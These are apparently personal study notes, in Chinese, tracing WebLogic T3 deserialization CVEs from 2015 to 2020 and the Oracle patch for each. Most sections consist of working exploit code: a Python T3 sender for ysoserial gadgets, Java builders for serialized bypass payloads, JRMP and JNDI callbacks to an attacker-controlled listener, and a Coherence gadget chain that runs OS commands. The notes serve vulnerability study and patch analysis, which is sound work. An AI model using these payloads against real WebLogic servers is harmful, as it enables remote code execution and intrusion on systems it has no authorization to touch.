





# Weblogic

>文章内容参考：http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86
>
>为了方便自己学习




## CVE-2015-4852

InboundMsgAbbrev#readobject

InboundMsgAbbrev#resolveClass


从入口点开始`weblogic.rjvm.InboundMsgAbbrev#readObject`方法开始。通过`read()`方法，读取T3数据流的序列化部分依次分块解析类。`InboundMsgAbbrev#resolveClass()`内部使用`Class.forName`来从类序列化获取到对应类的一个Class的对象。进行相对应的点实例化并读取了`AnnotationInvocationHandler`触发了此处CC1的利用链。最后在`AbstractMapDecorator#entrySet()`方法触发，达到了rce目的。

https://www.cnblogs.com/0x7e/p/14529949.html


主要有以下几个部分组成：

【数据包长度】【T3协议头】【反序列化标志】【数据】

00 00 0d cf 是数据包长度

通常在反序列化数据包中，`ac ed 00 05` 是反序列化标志，在 T3 协议中由于每个反序列化数据包前面都有 `fe 01 00 00` ，所以这里的标志相当于就是 `fe 01 00 00 ac ed 00 05`



```python
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = '/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections1" #CommonsCollections1 Jdk7u21
    command = "touch /tmp/CVE-2015-4852"

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

### 修复

补丁：2016年1月 p21984589_1036_Generic
修复方法是在resolveClass中引入了 ClassFilter.isBlackListed进行过滤，跟进weblogic.rmi.ClassFilter可以看到黑名单内容。

## CVE-2016-0638

weblogic.jms.common.StreamMessageImpl没在黑名单，在其反序列化时会读取一段数据并进行反序列化，我们可以把这段数据伪造成rce payload。



乱入一个QA
Q：StreamMessageImpl可以过黑名单很好理解，但是为啥CommonsCollections1依旧可以成功，CommonsCollections1(org.apache.commons.collections.functors)不是在黑名单里面吗？

A：答案是ServerChannelInputStream没有过滤到org.apache.commons.collections.functors（废话）。细节是这样的：ServerChannelInputStream的resolveClass检验到是StreamMessageImpl，不在黑名单里面，通过。然后在反序列化流程中会调用StreamMessageImpl的readExternal，readExternal内部又new了新的ObjectInputStream（以后简称ois）并从缓冲区读反序列化数据再次调用readObject，这里原生的ois就是原生的resolveClass方法没有过滤。

**有点类似二次反序列化利用。。**

```java
import weblogic.jms.common.StreamMessageImpl;

import java.io.*;

public class CVE_2016_0638 {

    public static void main(String[] args) throws IOException {
        byte[] payload = exec("CommonsCollections1", "touch /tmp/CVE_2016_0638");
        StreamMessageImpl streamMessage = new StreamMessageImpl(payload);
        ser(streamMessage, "CVE_2016_0638.ser");
    }

    public static byte[] exec(String gadget, String command) throws IOException {
        String[] cmd = {"java", "-jar", "/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar", gadget, command};
        InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[4096];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        return baos.toByteArray();
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
}
```

### 修复

补丁：2016年4月p22505423_1036_Generic
把原生的ois换成了FilteringObjectInputStream

## CVE-2016-3510

weblogic.corba.utils.MarshalledObject不在黑名单中，并且在readResolve的时候会读取objBytes的值赋给新new的ois。那么我们在objBytes中放入rce payload即可。



```java
import weblogic.corba.utils.MarshalledObject;
import weblogic.jms.common.StreamMessageImpl;

import java.io.*;
import java.lang.reflect.Field;

public class CVE_2016_3510 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        byte[] payload = exec("CommonsCollections1", "touch /tmp/CVE_2016_3510");
        MarshalledObject marshalledObject = new MarshalledObject("foo");
        Class cls = marshalledObject.getClass();
        Field field = cls.getDeclaredField("objBytes");
        field.setAccessible(true);
        field.set(marshalledObject, payload);
        ser(marshalledObject,"./CVE_2016_3510.ser");
    }

    public static byte[] exec(String gadget, String command) throws IOException {
        String[] cmd = {"java", "-jar", "/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar", gadget, command};
        InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[4096];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        return baos.toByteArray();
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
}
```

### 修复

补丁：2016年10月 p23743997_1036_Generic
重写了resolveClass方法，加了过滤。

## CVE-2017-3248



通过jrmpclient去触发反序列化，然后在去连接我们的jrmplistener在触发反序列化漏洞。

```python
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = '/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 7001
    gadget = "JRMPClient"  #CommonsCollections1 Jdk7u21 JRMPClient
    command = "192.168.1.3:8080" #

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

### 修复

补丁：p24667634_1036_Generic
官方的修复是新加resolveProxyClass，过滤java.rmi.registry.Registry

## CVE-2018-2628

上面提到过滤了Registry，这样ysoserial中原生JRMPClient就打不了，但是仍然有多种办法bypass。

>这个CVE廖也提交了绕过，他的绕过是用java.rmi.activation.Activator替换java.rmi.registry.Registry，从而绕过resolveProxyClass的判断。其实这里对接口没有要求，不一定是rmi接口，随便找一个接口都行，比如java.util.Map

直接用UnicastRef。CVE-2017-3248的构造中把UnicastRef放入了Registry，其实用UnicastRef也能在反序列化的时候发起jrmp请求。这种方法要比替换接口的干脆很多。在ysoserial中加一个JRMPClient2

```java
package ysoserial.payloads;

import java.rmi.server.ObjID;
import java.util.Random;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;


@SuppressWarnings ( {
    "restriction"
} )
@PayloadTest( harness="ysoserial.test.payloads.JRMPReverseConnectSMTest")
@Authors({ Authors.MBECHLER })
public class JRMPClient2 extends PayloadRunner implements ObjectPayload<UnicastRef> {

    public UnicastRef getObject ( final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        return ref;
    }


    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient.class.getClassLoader());
        PayloadRunner.run(JRMPClient.class, args);
    }
}
```

### 修复

补丁：2018年四月发布的p27395085_1036_Generic
UnicastRef在weblogic.utils.io.oif.WebLogicFilterConfig中加进了黑名单。

## CVE-2018-2893

streamMessageImpl + jrmp代理类绕过。先来看payload

```java
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import weblogic.jms.common.StreamMessageImpl;

import java.io.*;
import java.lang.reflect.Proxy;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class CVE_2018_2893 {
    public static void main(String[] args) throws IOException {
        ObjID objID = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint tcpEndpoint = new TCPEndpoint("192.168.1.3", 8080);
        UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
        RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);//通过代理
        Object object = Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(), new Class[] { Registry.class }, remoteObjectInvocationHandler);
        StreamMessageImpl streamMessage = new StreamMessageImpl(serialize(object));
        ser(streamMessage, "CVE_2018_2893.ser");
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }

    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        serialize(obj, out);
        return out.toByteArray();
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
    }
}
```

### 修复

补丁：18年7月 p27919965_1036_Generic
这次修复把经过resolveClass的java.rmi.server.RemoteObjectInvocationHandler给过滤了。

## CVE-2018-3245

>根据前面的分析可知，我们只需要找一个类似java.rmi.server.RemoteObjectInvocationHandler的类进行替换，就能继续绕过了。
>那么这个类应该满足以下条件：
>继承远程类：java.rmi.server.RemoteObject
>不在黑名单里边（java.rmi.activation. 、sun.rmi.server.）
>随便找了一下，符合条件的挺多的：
>javax.management.remote.rmi.RMIConnectionImpl_Stub
>com.sun.jndi.rmi.registry.ReferenceWrapper_Stub
>javax.management.remote.rmi.RMIServerImpl_Stub
>sun.rmi.registry.RegistryImpl_Stub
>sun.rmi.transport.DGCImpl_Stub

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.io.*;
import java.rmi.server.ObjID;
import java.util.Random;

public class CVE_2018_3245 {
    public static void main(String[] args) throws IOException {
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("192.168.1.3", 8080);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        ReferenceWrapper_Stub wrapperStub = new ReferenceWrapper_Stub(ref);
        ser(wrapperStub, "CVE_2018_3245.ser");

    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }

}
```

### 修复

补丁：2018年8月 p28343311_1036_201808Generic
修复方法是添加更底层的java.rmi.server.RemoteObject。

## CVE-2018-3191

这个洞是jndi注入。触发点在JtaTransactionManager。

```java
import com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class CVE_2018_3191 {
    public static void main(String[] args) throws IOException {
        String jndiAddress = "rmi://192.168.1.3:1099/Exploit";
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName(jndiAddress);
        ser(jtaTransactionManager, "CVE_2018_3191.ser");
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
}
```

### 修复

补丁：2018年8月 p28343311_1036_Generic


## CVE-2020-2555

Oracle Coherence组件存在漏洞，该组件默认集成在Weblogic12c及以上版本中（网上资料这么说的：web10.3.6也有只是默认没有启用，未验证）。
这个漏洞和cc5的构造有异曲同工之妙，触发点在BadAttributeValueExpException#readObject 中调用toString方法。

**Coherence组件**

```java
import com.tangosol.util.ValueExtractor;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class CVE_2020_2555 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        //String cmd = "touch /tmp/CVE_2020_2555_12013";
        String cmd ="calc.exe";
        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]}),
                new ReflectionExtractor("invoke", new Object[]{null, new Object[0]}),
                //new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash", "-c", cmd}})
                new ReflectionExtractor("exec", new Object[]{new String[]{"cmd.exe", "/c", cmd}})
        };
        // chain
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setTopAnchor(Runtime.class);
        BadAttributeValueExpException expException = new BadAttributeValueExpException(null);
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, new ChainedExtractor(valueExtractors));
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);
        Field val = expException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(expException, limitFilter);
        ser(expException, "./CVE_2020_2555_12013.ser");
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
    
}
```

### 修复

删了extractor.extract

## 总结

梳理完一遍之后，我们得以看到整个绕过思路的全貌。笔者主观分为三个阶段。

- 第一阶段，CVE-2016-0638和CVE-2016-3510。利用反序列化流程中新new的原生ois绕过，只要找到了read*系列的点可以比较容易的看出来。
- 第二阶段，cve-2017-3248到cve-2018-3191。利用jrmp、jndi带外rce，漏洞点没有在read*的代码上下文中需要多跟几步有点“pop”的感觉了。
- 第三阶段，cve-2020-2555，需要对java的反序列化出现过知识点很熟悉（java原生类的触发点+weblogic组件中类似cc的套路），据说这个漏洞的作者也挖了很久。


>参考：
>
>https://www.yuque.com/tianxiadamutou/zcfd4v/aevpg0
>
>http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86/
>
>https://y4er.com/post/weblogic-jrmp/
>
>http://drops.xmd5.com/static/drops/web-13470.html
>
>https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704
>
>http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html